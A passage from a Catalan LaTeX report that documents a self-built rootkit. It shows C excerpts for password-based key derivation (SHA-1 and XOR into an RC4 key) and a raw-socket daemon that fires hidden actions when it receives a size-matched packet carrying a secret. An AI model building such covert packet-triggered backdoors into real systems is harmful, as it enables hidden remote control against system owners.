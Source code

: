 En el client, la contrasenya és sol·licitada en el moment d'executar-se. Llavors, en el client 
s'inicialitzen les diferents claus en base a la contrasenya entrada.

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
printf(@PYaB["]@PYaB[password: ]@PYaB["]); fflush(stdout);
fgets(p, @PYag[64], stdin); fflush(stdin);
p@PYZlb[]strlen(p) @PYbe[-] @PYag[1]@PYZrb[] @PYbe[=] @PYac['\0'];
tcsetattr(@PYag[0], TCSAFLUSH, @PYbe[&]old);

sha1((@PYaJ[unsigned] @PYaJ[char] @PYbe[*])p, strlen(p), clientauth);
printf(@PYaB["]@PYao[\n]@PYaB["]);
@PYaJ[int] i @PYbe[=] @PYag[0];
@PYay[for] (i @PYbe[=] @PYag[0]; i @PYbe[<] @PYag[20]; i@PYbe[+]@PYbe[+]) {
    serverauth@PYZlb[]i@PYZrb[] @PYbe[=] clientauth@PYZlb[]i@PYZrb[]@PYbe[^]p@PYZlb[]@PYag[0]@PYZrb[];
}
@PYay[for] (i @PYbe[=] @PYag[0]; i @PYbe[<] @PYag[20]; i@PYbe[+]@PYbe[+]) {
    rc4key@PYZlb[]i@PYZrb[] @PYbe[=] clientauth@PYZlb[]i@PYZrb[]@PYbe[^]p@PYZlb[]@PYag[1]@PYZrb[];
}
\end{Verbatim}
    \caption{client.c::get\_pass()}
    \label{fig:client_get_pass}
\end{figure}

\subsection{Detecció del rootkit}
Per tal de detectar si hi ha un rootkit en execució en una màquina remota, s'ha implementat una acció
que pot ser executada independentment del password utilitzat. Com s'ha comentat en punts
anteriors, cada cop que el launcher rep un paquet del tamany exacte, aquest n'extreu de la capçalera, 20 
bytes i els compara amb el password que ell té. \\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[while] (@PYag[1]) {
    size @PYbe[=] recvfrom(sock, @PYbe[&]p, @PYay[sizeof](p), @PYag[0], (@PYay[struct] sockaddr @PYbe[*]) @PYbe[&]raw, @PYbe[&]slen);
    @PYaE[// Si el tamany del paquet es el que toca]
    @PYay[if] (size @PYbe[=]@PYbe[=] @PYay[sizeof](@PYay[struct] packet)) {
        @PYaE[// I el password és correcte]
        @PYay[if] (@PYbe[!]memcmp(CLIENTAUTH, p.action.pass, @PYag[20])) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet d'autenticat (action: %d)]@PYao[\n]@PYaB["], p.action.action);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
        } @PYay[else] @PYay[if] (@PYbe[!]memcmp(CHECKSTR, p.action.pass, @PYag[20]) 
                @PYbe[&]@PYbe[&] (p.action.action @PYbe[=]@PYbe[=] CHECK @PYbe[|]@PYbe[|] p.action.action @PYbe[=]@PYbe[=] REVCHECK)) {
            debug(@PYaB["]@PYaB[S'ha rebut el paquet de CHECK]@PYao[\n]@PYaB["]);
            do_action(@PYbe[&](p.action), @PYbe[&]raw.sin_addr, ntohs(p.tcp.dest), @PYag[0]);
		}
    }
}
\end{Verbatim}
    \caption{launcher.c::raw\_daemon()}
    \label{fig:raw_daemon}
\end{figure}

